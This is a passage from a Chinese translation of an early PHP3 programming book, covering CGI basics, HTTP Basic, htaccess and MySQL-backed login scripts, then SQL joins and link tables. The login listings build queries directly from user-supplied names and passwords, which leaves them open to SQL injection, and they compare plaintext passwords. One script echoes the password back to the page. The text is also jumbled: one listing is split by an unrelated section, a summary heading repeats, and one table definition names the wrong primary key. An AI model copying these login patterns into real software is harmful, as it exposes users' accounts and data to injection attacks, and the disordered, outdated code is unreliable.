POST 方法使用 `STDIN` 文件句柄将所有表单信息发送到 CGI 程序。Web 服务器将设置 `CONTENT_LENGTH` 环境变量以指示 CGI 程序需要读取多少数据。

作为 PHP 程序员，你不需要知道表单信息如何传递到 CGI 程序的细节，因为 PHP 引擎通过 `$HTTP_GET_VARS` 和 `$HTTP_POST_VARS` 数组以及常规 PHP 变量使信息对你可用。例如，如果你有一个包含名为 age 字段的表单，表单信息可以作为 `$age` 和 `$HTTP_POST_VARS['age']` 使用——假设你的表单使用 `method="post"`。

## 总结

本章涵盖了很多内容。它首先将 CGI 定义为 Web 服务器和外部程序之间的接口。然后，本章讨论了 CGI 应用程序与 Java 小程序的对比，以及它们如何成为互补技术。

在那些介绍性评论之后，有趣的部分开始了。CGI 程序被展示为由 URL 调用。该 URL 可以直接输入到网络浏览器中，也可以存储在网页中作为超文本链接或 HTML 表单信息的目标。我们了解到，任何 CGI 程序的第一行输出必须是某种类型的 HTTP 头。最常见的头是 Content-type，它基本上告诉网络浏览器预期会收到什么（纯文本，可能？或者一些 HTML）。Location 头将网络浏览器重定向到另一个 URL。Set-cookie 头


## 摘要

在访客的本地磁盘上存储少量信息。最后一个头部是状态，它告诉Web浏览器出现了错误。

通过在URL末尾放置反斜杠（`/`）或问号（`?`），可以将信息传递给CGI程序。反斜杠之后的信息被放入`PATH_INFO`环境变量。问号之后的信息被放入`QUERY_STRING`环境变量。在很大程度上，PHP已经消除了您对这些细节的担忧，因为它提供了`$HTTP_POST_VARS`和`$HTTP_GET_VARS`数组。

我们看到环境变量在CGI程序中扮演着重要角色。它们是Web服务器提供信息的主要手段。例如，您可以使用`REMOTE_ADDR`变量找到客户端的IP地址。而`SCRIPT_NAME`变量包含当前程序的名称。

URL编码用于防止字符被误解。例如，`<`字符通常编码为`%3C`。此外，大多数空格被转换为加号。

最大的安全风险之一发生在用户数据（表单输入或额外的路径信息）暴露给操作系统命令（如`mail`或`grep`）时。永远不要信任用户输入！始终做最坏的打算。大多数黑客花费大量时间阅读手册和源代码以寻找软件弱点。您需要阅读有关Web安全的信息来保护您的网站。

我们了解到，Cookie用于将信息存储在用户的硬盘驱动器上。它们是一种创建持久信息的方式，可以从一次访问延续到下一次访问。

您可以使用PHP的`error_log`函数将消息发送到服务器的日志文件，从而调试CGI程序。

HTML标签提供了关于文档内容如何结构化的指导。例如，`<P>`标签表示新段落的开始，`<H1>`..`</H1>`标签表示文本标题。一个“正确的”HTML文档完全包含在一组`<HTML>`..`</HTML>`标签内。在`<HTML>`标签内部是`<HEAD>`..`</HEAD>`（包围文档标识信息）和`<BODY>`..`</BODY>`（包围文档内容信息）标签。

接下来，讨论了HTML表单。HTML表单显示输入字段，用于向网站访客进行查询。您可以显示输入框、复选框、单选按钮、选择列表、提交按钮和重置按钮。一组`<FORM>`..`</FORM>`标签内的所有内容被视为一个表单。您可以在单个网页上拥有多个表单。`FORM`标签的`ACTION`属性告诉Web浏览器在单击表单的提交按钮时调用的CGI程序的名称。而`METHOD`修饰符决定了表单信息应如何发送到CGI程序。如果使用GET方法，表单字段中的信息将在`$HTTP_GET_VARS`数组中可用。如果使用POST方法，表单信息将通过`$HTTP_POST_VARS`数组可用。

下一章“身份验证”探讨了允许开发人员限制对文档、目录甚至整个Web应用程序访问的过程。

# 身份验证

身份验证是验证用户是否有效并具有访问受保护资源的适当权限的过程。在Web应用程序的背景下，身份验证允许开发人员限制对某些文档、目录甚至整个Web应用程序的访问，仅限拥有正确用户名和密码的人员。身份验证专家Brad Morton为本章做出了重要贡献。

身份验证是当今互联网上投入生产的大多数大型Web应用程序的组成部分。对安全性的需求促使开发人员设计出验证其客户端库的方法。可用于实现身份验证的方法范围从简单到复杂。这些包括：

-   **htaccess**—以分层方式保护文档和目录。此技术由Web服务器实现；您只需要指定用户名并决定要保护哪些目录。
-   **数据库表**—使用您设计的任何类型的认证系统保护任何类型的资源。在本章中，展示了简单的用户名和密码保护。

这些形式的身份验证可以单独使用，或者在某些情况下结合使用。本章中使用的代码非常简单。您需要对其进行修改以用于生产环境。

我们不会深入探讨身份验证的用途，对于任何花时间浏览互联网并遇到登录屏幕或要求输入用户名和密码的对话框的人来说，这些都是相当明显的。

我们将讨论实现细节，但首先，了解HTTP头部以及它们如何与身份验证相关非常重要。

## HTTP身份验证

HTTP身份验证规范为Web服务器定义了一个简单的质询响应方案，以验证用户的授权。如果用户尝试访问受保护的资源，Web服务器需要返回401 HTTP状态响应头（意味着“此用户未被授权”）。此响应包含身份验证方案（基本或摘要）和领域名称。基本身份验证涉及使用基本上未加密的密码，而摘要身份验证则对其进行加密。领域名称代表受保护的资源，并帮助用户记住要使用哪个用户名和密码。收到401错误后，浏览器会向用户显示一个用于输入用户名和密码的对话框。如果身份验证方案是基本的，浏览器会再次请求资源，这次返回一个授权请求头，其中包含方案名称和经过Base64编码的用户名和密码。

如果服务器不接受授权，它将返回另一个401错误，“授权被拒绝”或“需要授权”。然后浏览器可能会提示用户尝试再次输入用户名和密码。如果服务器接受授权，则将请求的页面提供给用户的浏览器。

在所有后续请求中，浏览器都会发送授权头，这允许用户在同一领域内查看网页，而无需为每个页面登录。这样做的缺点是可能难以强制浏览器提示输入新的用户名和密码。

PHP将身份验证信息存储在三个变量中：`$PHP_AUTH_USER`、`$PHP_AUTH_PW`和`$PHP_AUTH_TYPE`。目前，仅支持基本身份验证。通过使用PHP中的header函数以及操作这些变量，可以实现一种简单的身份验证形式。清单13.1中的脚本向用户显示一个要求输入用户名和密码的对话框。对话框还指定了领域或受保护的资源。然后脚本检查用户名和密码，并将它们打印到屏幕上。显然，这并不是非常有用，因为它没有执行任何实际操作，但它确实展示了PHP如何操作HTTP头部以利用HTTP身份验证。在本章后面，您将看到一个如何将HTTP身份验证与数据库检查结合以验证客户端用户名和密码的示例。

### 清单13.1 auth01.php3

```php
<?php // auth01.php3

if (! isset($PHP_AUTH_USER)) {
  Header('WWW-Authenticate: Basic realm="Test Site"');
  Header('HTTP/1.0 401 Unauthorized');
  echo 'Authorization Required!\n';
  echo 'Hit reload to try again.';
  exit;
}
else {
  echo "Username: $PHP_AUTH_USER<P>";
  echo "Password: $PHP_AUTH_PW<P>";
  echo "Auth Type: $PHP_AUTH_TYPE<P>";

  // 在这里，您将查询数据库
  // 以验证用户提供的
  // 用户名和密码。
}
?>
```

清单13.1中的代码仅在PHP编译为Apache模块时运行（如第2章“安装PHP”中所示）。PHP的CGI版本没有可用的HTTP身份验证钩子。重要的是要注意，在发送HTTP头部（包括空格以及任何HTML或PHP生成的输出）之前，不能向浏览器发送任何输出。

清单13.2中的`fetch_page`函数展示了PHP的一些更高级功能。该脚本承担了用户和浏览器的工作，并自动与受保护的资源进行身份验证（假设资源通过HTTP身份验证进行保护）。脚本需要传递主机名、路径、用户名和密码，或者将它们硬编码到脚本本身中（这严重限制了脚本的实用性）。接下来，脚本连接到远程主机，发送包含身份验证类型（本例中为基本）和经过Base64编码的用户名和密码的授权请求头，然后将结果页面存储在两个数组中——一个用于HTTP头，一个用于HTML内容。

### 清单13.2 auth02.php3

```php
<?php

function fetch_page($host, $page, $user, $password) {
global $errno, $errstr;

$buffer = "";
$fp = fsockopen($host, 80, &$errno, &$errstr, 30);

// 初始化与远程主机的连接
// 错误（如果有）将在全局
// 错误变量中返回。
if ($fp) {
```


## htaccess 认证

设置 htaccess 认证涉及两个步骤：首先，必须创建一个包含用户名和密码的文件。其次，必须配置 Web 服务器，以根据有效的用户名和密码限制对特定资源的访问。

## 用户文件

用户文件包含用户名和密码组合，Web 服务器使用这些组合来判断它收到的用户名/密码组合是否有效。此文件可以放置在任何位置，但强烈建议不要将其放在公开可访问的目录中，例如 Web 服务器的根目录 `/usr/local/apache/htdocs`。保存此文件的安全位置是 `/usr/local/apache`。

用户数据库是一个简单的文本文件。文件的每一行包含一个用户名，后跟一个冒号和加密后的密码。它使用 `htpasswd` 程序创建。以下命令创建一个新的用户文件并添加用户 "eugene"：

```
htpasswd -c /usr/local/apache/users eugene
```

`-c` 标志告诉 `htpasswd` 创建一个新的用户数据库文件或覆盖同名的现有文件。下一个参数指定要创建/覆盖的用户文件，最后一个参数是要添加的用户。输入此命令后，系统会提示您为要添加的用户输入密码。还会提示您确认密码是否正确。要将用户添加到现有文件，请省略 `-c` 标志。

一个用户文件的示例如下：

```
eugene:0/VS9xlvmWHHo
gerry:ZeconDDJcy0w
```

## Apache 配置

现在您已经创建了用户文件，必须配置 Web 服务器以允许访问特定文件或目录。这是通过创建一个认证域来实现的。用户成功通过认证域认证后，在关闭浏览器或尝试进入另一个他尚未成功认证的认证域之前，无需再次输入用户名和密码。一个认证域通常由一个目录及其下的所有子目录组成，尽管也可能在同一个认证域中包含不相关的目录。可以将 Web 服务器配置为允许用户文件中的所有或部分用户访问。

您有两种方式配置 Web 服务器。创建认证域的指令可以放在要保护的目录中的 `.htaccess` 文件中，也可以放在 Apache 配置文件（`/usr/local/apache/conf/httpd.conf`）的 `<Directory>` 节中。

下面是一个 `.htaccess` 文件的示例：

```
AuthName "Admin site"
AuthType Basic
AuthUserFile /etc/httpd/users
require valid-user
```

- **AuthName**——此指令指定认证域的名称。这通常描述了您试图保护的内容，即站点的管理部分或开发区域等。
- **AuthType**——此指令指定用于认证的协议。*基本*认证将用户名和密码以未加密的形式（即明文）传递给 Web 服务器。这不是最安全的认证形式，因此得名。*摘要*是另一种认证形式。它使用 MD5 加密来提供更高的密码安全性。但是，较旧版本的浏览器不支持摘要认证。这限制了其在大型 Internet 站点上的使用。要使用摘要认证，请像设置基本认证一样设置 Web 服务器，但需要使用 `AuthType Digest` 和 `AuthDigestFile` 而不是 `AuthUserFile`。
- **AuthUserfile**（或 **AuthDigestFile**）——此指令指定用户数据库文件的路径。这是之前使用 `htpasswd` 创建的文件。
- **require**——此指令指定用户数据库文件中的哪些用户将有权访问受保护的目录。在上面的示例中，所有有效用户都可以访问受限区域。要将访问限制在特定用户，您可以修改 require 指令如下：

```
require user gerry
```

这允许用户 `gerry` 使用他的用户名和密码访问此认证域，并拒绝所有其他用户，即使他们在用户数据库文件中有有效的用户名和密码。

对于少量用户，用户文件是可行的；但是，当用户数量增加时，它可能变得难以管理。将用户分类成组可以大大简化中等数量用户的管理，因为您可以按组为基础一次性为多个用户分配访问权限。

组在组文件中定义，该文件在 `.htaccess` 文件或 `<Directory>` 指令中通过以下格式引用：

```
AuthGroupFile /etc/httpd/groups
```

组文件每行包含一个组定义，以组名开头，后跟一个空格分隔的组内用户列表。如果用户列表太长，您可以通过再次指定组名后跟剩余用户的空格分隔列表在下一行继续。

一个组文件的示例如下：

```
admin:gerry tommy doug
csupp:greg michelle
```

组获得认证域访问权限的方式与用户相同。例如：

```
require user gerry
require group csupp
```

允许用户 `gerry` 和客户支持组 `csupp` 中的所有用户使用他们正确的用户名和密码组合访问受保护区域。

随着用户数量的增加，Web 服务器验证用户文件中每个用户所需的时间也会增加。在较大或更活跃的站点上，Web 服务器需要频繁认证用户，这时采用更高效的认证方案是一个好主意。这意味着使用真实的数据库来存储用户名和密码，而不是像上面示例中使用的文本文件中的用户名和密码列表。Apache Web 服务器有一些模块允许存储用户和组列表，例如 `mod_auth_dbm` 或 `mod_auth_msql`。使用数据库模块允许 Web 服务器对数据库执行快速查找，而不是解析大型文本文件。

## 使用数据库的简单认证

使用用户名和密码数据库的优势不仅在于提高性能；它还允许对用户进行更广泛的控制和跟踪。PHP3 拥有一系列广泛的函数来执行数据库交互，这简化了认证任务。

下面的脚本，如代码清单 13.3 所示，说明了简单的数据库认证，并涉及用户跟踪。用户跟踪和维护用户信息的主题超出了本章的范围，但两者都可以——并且通常是——与用户认证结合在一起。

```php
// If the connection is successful, the $auth_string
// variable is set to the base64 encoded username
// and password.
$auth_string = base64_encode("$user:$password");

// Send a request for the specific resource (stored
// in $page) and also send the HTTP authentication
// request that includes the encoded username and
// password (i.e., $auth_string).
fputs($fp,"GET $page HTTP/1.0\n");
fputs($fp,"Authorization: Basic $auth_string\n\n");

// Store the page that is served by the web server
// into the $buffer variable.
while(!feof($fp)) {
  $buffer .= fgets($fp,1024);
}

// Close the connection to the remote host.
fclose($fp);
}

// Using a regular expression, the headers are
// extracted from $buffer and stored in $header.
// Refer to Chapter 9 - Pattern Matching - for an
// in-depth explanation of regular expressions.
$temp = preg_match("/^(.+?)</ms", $buffer, $matches);
$headers = $matches[1];

// This regular expression stores the HTML content
// into the $page variable.
$page = preg_replace(
            "/^(.+?)(<!DOCTYPE)|^(.+?)(<HTML)/ims",
            "\\2",
            $buffer);

return(array(
  'headers' => $headers
  ,'page'   => $page
  ));
```

```php
$try_page = fetch_page(
  "www.bogus-server.com",
  "/Admin/",
  "user",
  "mypassword");
```

```php
// $ary_page['headers'] has all the httpd headers.
// $ary_page['page'] has the html code.

exit();

?>
```

因为 HTTP 是一种无状态协议——它不记住从一次请求到下一次请求的信息——大多数应用程序将认证与某种形式的会话管理结合在一起。当用户连接到您的 Web 服务器时，会话开始，并在一段时间后结束（通常是一到四小时）。每次用户请求网页时，计时器都会重置为零。代表会话的某种类型的用户 ID 存储在用户的计算机上（使用 cookie）或通过 URL 传递。

> 如果您使用 PHPLIB 模块，如第 15 章 "Interlude Four: Managing Concurrent Access" 中所述，所有会话细节都会得到处理。

既然我们已经描述了 HTTP 头，让我们谈谈 Web 服务器如何结合 `.htaccess` 文件使用它们。


在本示例中，首先向用户展示一个登录页面，要求输入用户名和密码。用户提交这些信息后，脚本会检查用户数据库进行验证。如果用户无效，则显示错误信息。如果用户有效，则显示欢迎信息并提供继续操作的链接。

清单 13.3 包含了进行身份验证所需的核心代码。清单 13.4 是一个用于收集用户名和密码的 HTML 表单。

### 注意

第 15 章"插曲四：管理并发访问"介绍了如何使用 PHPLIB 模块来验证用户。下面的示例仅用于帮助你熟悉身份验证的原理。我不建议在你的应用程序中使用它，请改用 PHPLIB。

### 清单 13.3 login.php3

```php
<?php // login.php3
//
// This script prompts for a username and password
// Valid users are taken to the welcome page, invalid
// users are displayed an error.

// html header
echo '<HTML><HEAD></HEAD><BODY>';

switch ($position) {
  case "process":

    // process login information
    mysql_connect("hostname","username","password")
      or die ("Unable to connect to database!");

    mysql_select_db("dbname")
      or die ("Unable to select database!");

    $today = date("Y-m-d H:i:s");

    // check username and password
    $query = "
      select id
      from tblusers
      where username = '$user' and password = '$passwd'
    ";

    $result = mysql_query($query);
    $numRows = mysql_numrows($result);
    $id = mysql_result($result,0,"id");

    if ($numRows == 0) {
        // authentication failed
        unset($position);
        echo 'Authentication failed!&nbsp;';
        echo '<A HREF="login.php3">Retry?</A>';
        echo '<BR>';
    }
    else {
        // valid user! Now update the last login date
        $query = "
            update tblusers
            set lastLogin = '$today'
            where id = $id
        ";
        $result = mysql_query($query);
        echo 'Authentication succeeded!&nbsp;';
        echo '<A HREF="welcome.php3">Continue</A>';
        echo '<BR>';

        // Here you could implement session management
        // to maintain the users authenticated
        // state so logging in again isn't necessary.
    }
    break;
    default:
        // display login form
        include("loginform.php3");
}

// html footer
echo '</BODY></HTML>';
?>
```

### 清单 13.4 *loginform.inc*

```php
<?php // loginform.inc

// Simple login form
?>

<FORM ACTION="login.php3?position=process" METHOD="post">
  <TABLE BORDER="0">
    <TR>
      <TD>username</TD>
      <TD>
        <INPUT TYPE="text" NAME="user" SIZE="10" MAXSIZE="10">
      </TD>
    </TR>
    <TR>
      <TD>password</TD>
      <TD>
        <INPUT TYPE="password" NAME="passwd" SIZE="10" MAXSIZE="10">
      </TD>
    </TR>
    <TR>
      <TD COLSPAN="2" ALIGN="center">
        <INPUT TYPE="submit" VALUE="Submit">
      </TD>
    </TR>
  </TABLE>
</FORM>
```

正如本章前面提到的，可以将 HTTP 身份验证与简单的数据库身份验证相结合。将这两种方法结合起来，可以轻松地维护用户的身份验证状态，同时仍然能够使用数据库提供的功能和选项。一种实现方式是通过使用一个身份验证文件，该文件包含在每个需要保护的页面顶部。此文件必须在向浏览器发送任何输出之前包含；否则，其中包含的头部函数将失效。清单 13.5 中显示的示例脚本演示了如何实现这一点，清单 13.6 显示了已验证用户的名称。

### 清单 13.5 authenticate.inc

```php
<?php // authenticate.inc

if (! isset($PHP_AUTH_USER)) {
    header('WWW-Authenticate: Basic realm="Example Admin Site"');
    header('HTTP/1.0 401 Unauthorized');
    echo 'Authorization Required!&nbsp;';
    echo 'Hit the reload button to try again.';
    exit();
}
else {
    // Now validate the username and password
    mysql_connect("hostname","username","password")
        or die ("Unable to connect to database!");

    mysql_select_db("dbname")
      or die ("Unable to select database!");

    $query = "
      select id
      from tblusers
      where username = '$PHP_AUTH_USER'
            and password = '$PHP_AUTH_PW'
    ";

    $result = mysql_query($query);
    $numRows = mysql_numrows($result);
    mysql_close();

    if ($numRows != 1) {
      // authentication failed. Send request for authentication
      header('WWW-Authenticate: Basic realm="Example Admin Site"');
      header('HTTP/1.0 401 Unauthorized');
      echo 'Authorization Required!&nbsp;';
      echo 'Hit the reload button to try again.';
      exit();
    }
}
?>
```

### 清单 13.6 *index.php3*

```php
<?php

// ensure user is authenticated
require("authenticate.inc");

echo '<HTML><HEAD>';
echo '<TITLE>Authentication Example</TITLE>';
echo '</HEAD><BODY>';

echo "Hi $PHP_AUTH_USER! ";
echo 'You have successfully authenticated.';

echo '</BODY></HTML>';
?>
```

## 小结

身份验证是当今互联网上大多数大规模 Web 应用程序不可或缺的一部分。安全需求促使开发人员设计出验证其客户群的方法。

大多数身份验证实现使用两种主要方法之一（有时两者结合）：HTTP 身份验证和数据库身份验证。

HTTP 头部用于客户端和服务器之间的通信。当访问资源（如网页）需要身份验证时，Web 服务器会发送 401 响应头。此响应包含一个领域名称（realm name）。领域名称代表受保护的资源，同时帮助用户记住应使用哪个用户名和密码。

由于 HTTP 是一种无状态协议——它不会记住从一个请求到下一个请求的信息——大多数应用程序将身份验证与某种形式的会话管理相结合。会话从用户连接到你的 Web 服务器时开始，在一定时间后结束（通常为一到四个小时）。每次用户请求网页时，计时器都会重置为零。代表会话的某种用户 ID 存储在用户的计算机上（使用 cookie）或通过 URL 传递。

htaccess 身份验证由 Web 服务器强制执行。用户名和密码列表存储在由 **htpassword** 命令创建的文件中。然后，将指令放入每个目录中的 `.htaccess` 文件或 Apache 配置文件（`/usr/local/apache/conf/httpd.conf`）中。

对于大型网站，可以通过使用数据库表来实现身份验证。这种技术允许高级用户跟踪，并简化了用户信息的维护。

下一章"真实世界的 SQL"将展示如何将多个数据库表相互关联。

*Brad Morton* 目前在 G.Triad Development Corp. 担任高级网络工程师。他拥有计算机系统工程学士学位，在软件和网络安全工程领域有深厚的背景。他此前曾以合同形式担任网络工程师，管理 Novell/NT 服务器，并从事应用程序开发工作。他在使用 Allaire 的 Cold Fusion 以及最近的 PHP3 开发 Web 应用程序方面拥有丰富经验。UNIX 和底层网络方面的背景，加上扎实的 NT 技能，使他成为 G.Triad 网络服务部门的首席工程师。

# 真实世界的 SQL

本章介绍如何将数据库表相互关联，并执行非简单查询。

虽然将本章称为"高级 SQL"很诱人，但事实是很少有人（包括我自己）能够掌握真正高级的 SQL。这需要对集合论和数学有扎实的理解。幸运的是，编写互联网应用程序并不需要使用高级 SQL。你只需要学习如何将数据库表相互关联，并同时从多个数据库表中选择信息。

第 6 章"数据库与 SQL"介绍了字段、记录和表的概念。还讨论了七个 SQL 语句（`insert`、`update`、`select`、`delete`、`create`、`alter` 和 `drop`）。然而，该章只涉及一次只针对一个表的 SQL 语句。仔细想想，将 SQL 语句限制为仅一个表是不现实的。例如，在真实场景中，你可能需要一个数据库表来保存客户姓名，另一个表来保存客户购买的物品。

## 表关系

在尝试理解 SQL 如何从多个数据库表中选择信息之前，我们需要考虑数据库表可以关联的不同方式。让我们看一个真实世界的信息示例。书籍是我最喜欢的话题，所以让我们用它。一本书涉及哪些信息？

- 标题
- 作者
- 页数
- 出版社
- ISBN

其中一些信息是书籍本身固有的，例如页数。其他信息，如作者姓名和出版社，可能被多本书共享。

如果你思考书籍的使用方式，其他分类方式就变得清晰了。在图书馆环境中，作者姓名对于排序和分组很重要。对于图书代理商来说，作者姓名

必须附带更多信息，例如作者的地址和电话号码。

你能看出书籍信息如何可能被分成三个数据库表吗？

- **books**—此表中的每条记录保存每本书的书名、页数、ISBN，以及作者和出版商信息。

- **authors**—此表中的每条记录保存作者的姓名、地址和电话号码。

- **publishers**—此表中的每条记录保存出版商的名称、地址和电话号码。此外，如果已知编辑或其他常驻人员的姓名，这些信息也存储在此处。

这些表彼此之间是如何关联的？

- **一对一**—书籍只能有一个出版商。

- **一对多**—书籍可以有多位作者。

- **多对多**—出版商可以与多位作者合作，作者也可以与多家出版商合作。

现在，确定表如何相互关联的时机已经到来。你可能从前几章中回忆起，每条记录都应该是唯一的，而确保唯一性的最简单方法是设置一个主键列。这些主键列将在关联数据库表时发挥关键作用。

是书籍拥有作者，还是作者撰写书籍？显然，这两种关系是相互的。从信息的角度来看，你选择通过数据库表来表示哪种关系并不重要。然而，这个问题确实有一些现实世界的影响。如果你的业务是一家作家代理机构，那么你的重点是作者；因此关系是“作者撰写书籍”。如果你是一家图书馆，你的重点是书籍；因此关系是“书籍拥有作者”。始终记住要关注应用程序用户需要看到的信息。让你的数据库设计反映出对你的客户（无论是内部客户还是外部客户）最重要的内容。

当我们创建一个维护信息的应用程序时，我们简单的三个表的数据库设计可能会变得更复杂。例如，你是否需要一个表来保存州名以进行输入验证？像“先生”和“女士”这样的尊称是否重要？

为简单起见，在本章的剩余部分，我们将坚持使用这三个表进行数据库设计，如图14.1所示。它显示了表和字段名称，以及它们彼此之间的关系。请注意，authors表和publishers表之间没有直接关系。它们仅通过books表中的记录相关联。



## 图14.1 我们的“现实世界”数据库设计。

### 注意

> 数据库设计由Embarcadero公司的ER/Studio程序创建（http://www.embarcadero.com）。

## 创建数据库表

使用清单14.1中的SQL语句来创建示例表。

### 清单14.1 create_tables.sql—创建publishers、authors和books表的SQL语句

```sql
CREATE TABLE
  publishers
(
  key_publishers INT(5) DEFAULT '0' NOT NULL AUTO_INCREMENT
  ,publisher_name VARCHAR(50) NOT NULL
  ,PRIMARY KEY (key_publishers)
)

CREATE TABLE
  authors
(
  key_authors INT(5) DEFAULT '0' NOT NULL AUTO_INCREMENT
  ,author_name VARCHAR(50) NOT NULL
  ,author_phone VARCHAR(20) NOT NULL
  ,PRIMARY KEY (key_authors)
)

CREATE TABLE
  books
(
  key_books int(5) DEFAULT '0' NOT NULL AUTO_INCREMENT
  ,key_authors int(5) DEFAULT '0' NOT NULL
  ,key_publishers int(5) DEFAULT '0' NOT NULL
  ,book_title varchar(50) NOT NULL
  ,PRIMARY KEY (key_books)
);
```

在这组三个表中，books表是主要的，因为它包含了指向publishers和authors表的链接。

向publishers和authors表添加记录很容易，如清单14.2和14.3所示。

### 清单14.2 create_publishers.sql—插入出版商记录的SQL语句

```sql
INSERT INTO publishers
(publisher_name)
VALUES ('Berkeley Publishing Corporation')

INSERT INTO publishers
(publisher_name)
VALUES ('Ace Books')

INSERT INTO publishers
(publisher_name)
VALUES ('Baen Publishing Enterprises')

INSERT INTO publishers
(publisher_name)
VALUES ('HarperPaperbacks')

INSERT INTO publishers
(publisher_name)
VALUES ('Penguin Group')
```

由于key_publishers字段是自增的，你不需要在插入语句中指定它。

### 清单14.3 create_authors.sql—插入作者记录的SQL语句

```sql
INSERT INTO authors
(author_name)
VALUES ('Terry Pratchett')

INSERT INTO authors
(author_name)
VALUES ('Esther Friesner')

INSERT INTO authors
(author_name)
VALUES ('Anne McCaffrey')

INSERT INTO authors
(author_name)
VALUES ('Jody Lynn Nye')

INSERT INTO authors
(author_name)
VALUES ('Philip José Farmer')
```

books表中的记录需要包含作者和出版商的信息。例如，书籍《Inside-Outside》由Philip José Farmer撰写，由Berkeley Publishing Corporation出版。仅仅知道作者的名字是不够的，我们需要知道key_authors字段的值。以下SQL语句简洁地定义了这一要求：

```sql
SELECT
  key_authors
FROM
  authors
WHERE
  author_name = 'Philip Jose Farmer';
```

此SQL语句的结果是3。你可以使用类似的SQL语句来确定Berkeley Publishing Corporation的key_publishers是1。使用这些信息意味着可以将记录插入books表中，如清单14.4所示。

### 清单14.4 create_books.sql—插入书籍记录的SQL语句

```sql
INSERT INTO books
(book_title, key_authors, key_publishers)
VALUES ('Inside-Outside', 3, 1)

INSERT INTO books
(book_title, key_authors, key_publishers)
VALUES ('Eric', 1, 4)

INSERT INTO books
(book_title, key_authors, key_publishers)
VALUES ('Men At Arms', 1, 3)

INSERT INTO books
(book_title, key_authors, key_publishers)
VALUES ('Gnome Man''s Land', 2, 2)

INSERT INTO books
(book_title)
VALUES ('Playgrounds of the Mind')
```

> 注意，SQL字面量中的单引号需要写两个。

> 最后一条插入语句缺少作者和出版商信息。这样做是为了说明本章后面某些要点。但我不想怠慢作者Larry Niven或出版商Tom Doherty Associates, Inc.

很明显，任何只查看books表的人都不会知道哪位作者写了哪本书。到目前为止本书中使用的select语句无能为力，因为它们只处理单个表。将books表与authors表关联起来涉及连接两个表，如下一节所述。

## 通过连接形成虚拟表

为了使两个表相关联，它们需要有共同的字段。例如，假设你有一个包含州信息（如人口、平方英里等）的数据库表，另一个包含公司信息（如地址、股票代码等）的表。通过使用一个共同字段（`state_name`），这两个表可以连接在一起以回答诸如“Red Hat Software, Inc.所在州的人口是多少？”之类的问题。回答此问题的SQL语句可能如下所示：

```sql
SELECT
  population
FROM
  states, businesses
WHERE
  states.state_name = businesses.state_name
  AND businesses.business_name = 'Red Hat Software, Inc.'
```

`states`表和`businesses`表通过`WHERE`子句连接。`states`中的每条记录都与`businesses`中`state_name`值相同的每条记录连接。

让我们回到我们的书籍示例。因为使用了命名约定来命名主键字段`key_{tablename}`，编写连接三个表的SQL语句很容易：

```sql
SELECT
  books.book_title
  ,authors.author_name
  ,publishers.publisher_name
FROM
  books
  ,authors
  ,publishers
WHERE
  books.key_authors = authors.key_authors
  AND books.key_publishers = publishers.key_publishers
```

**注意**

用于形成虚拟表进行比较的字段必须是相同的数据类型。本例中的所有主键字段都是int(5)。


该语句会生成如下虚拟表：

| book_title | author_name | publisher_name |
| --- | --- | --- |
| Eric | Terry Pratchett | Penguin Group |
| Men At Arms | Terry Pratchett | HarperPaperbacks |
| Gnome Man's Land | Esther Friesner | Ace Books |
| Inside-Outside | Philip Jose Farmer | Berkeley Pub... |

当连接多个表时，最好显式地使用 `{table}.{field}` 语法指定每个字段属于哪个表。能够连接在一起的表数量只受限于你使用的数据库引擎。我曾看到 Oracle 连接了 60 个表。这个简单的例子足以展示链接表的优势。如果作者表中的信息直接存储在了书籍表中，那么关于 Terry Pratchett 的信息将会被重复。因此，使用连接可以减少信息的物理存储需求。

## 使用链接表

数据库设计通常是一个迭代的过程。设计完成后，会发现新的需求，或者有些需求被忽略了。例如，在本章到目前为止使用的三表设计中，如何处理多位作者的书籍呢？

如果你说“它们做不到”，那你很有洞察力。尽管在本书开头的章节中讨论了“如果一本书有多位作者怎么办”，但在设计表时，这一需求被忽略了。

你有几种方式支持多位作者。你可以在 books 表中有两个字段：

```
books.key_authors1
books.key_authors2
```

这些字段中的每一个都可以指向 authors 表中的记录。但是，如果你需要一本书有三位作者，则必须创建额外的字段。这种技术会浪费空间。如果 90% 的书籍只有一位作者，那么 90% 的记录都会有一个或多个浪费的字段。

另一种技术涉及使用逗号分隔的列表。你的 key_authors 字段可能包含 3、2、4，这些是对 authors 表中键值的索引。遗憾的是，SQL 不知道如何根据密钥值列表连接表。

将书籍与多位作者关联的正确解决方案是使用以下 SQL 语句创建链接表：

```
CREATE TABLE
  books_authors
(
  key_books_authors INT(5) not null AUTO_INCREMENT
  ,key_books INT(5) not null
  ,key_authors INT(5) not null
  ,PRIMARY KEY (key_books_authors)
)
```

### 注意

此链接表中不包含数据，只包含正在链接的表的关键值。有时，链接表包含信息是合理的。例如，以下 SQL 创建一个链接表，将一位配偶与另一位配偶联系起来。它还会存储结婚年份。由于该信息对于配偶之间的关系来说是本质的，因此将其存储在链接表中有意义。

```
CREATE TABLE
  spouses
(
  key_spouses INT(5) not null AUTO_INCREMENT
  ,key_spouse1 INT(5) not null
  ,key_spouse2 INT(5) not null
  ,year_married YEAR not null
  ,PRIMARY KEY (key_books_authors)
)
```

books_authors 表因为链接了 books 表和 authors 表，所以成了我们三个表宇宙中的主要表。不过，books 表仍然对 publishers 表具有优先权。

在 books_authors 表用于 SQL 语句之前，需要一些数据。但在可以插入记录之前，应删除 key_authors 字段，因为作为指向 authors 表指针的功能不再需要。books_authors 表中的值可以满足这种需求。第 14.5 节显示了对 books 表和插入适当数据的 SQL 语句。

使用第 14.5 节中的语句插入一些记录：

### Listing 14.5 create_books_authors.sql—用于插入 books_authors 记录的 SQL 语句

```
ALTER TABLE books DROP key_authors

INSERT INTO books
(book_title, key_publishers)
VALUES ('The Death of Sleep', 5)

INSERT INTO books_authors
(key_books, key_authors) VALUES (1, 3)

INSERT INTO books_authors
(key_books, key_authors) VALUES (2, 1)

INSERT INTO books_authors
(key_books, key_authors) VALUES (3, 1)

INSERT INTO books_authors
(key_books, key_authors) VALUES (4, 2)

INSERT INTO books_authors
(key_books, key_authors) VALUES (5, 4)

INSERT INTO books_authors
(key_books, key_authors) VALUES (5, 5)
```

Listing 14.5 中使用的 SQL 语句的值不是可读的。换句话说，仅仅查看 SQL 并不能得知 key_books 值为 3 指的是*Men at Arms*这本书。如何向用户隐藏这种复杂性，留作读者练习。

有了所有表中的数据，现在可以使用选择语句将所有表重新组合在一起：

```
SELECT
  books.book_title
  ,authors.author_name
  ,publishers.publisher_name
FROM
  books
  ,books_authors
  ,authors
  ,publishers
WHERE
  books.key_books = books_authors.key_books
  AND books_authors.key_authors = authors.key_authors
  AND books.key_publishers = publishers.key_publishers
```

结果如下

| book_title | author_name | publisher_name |
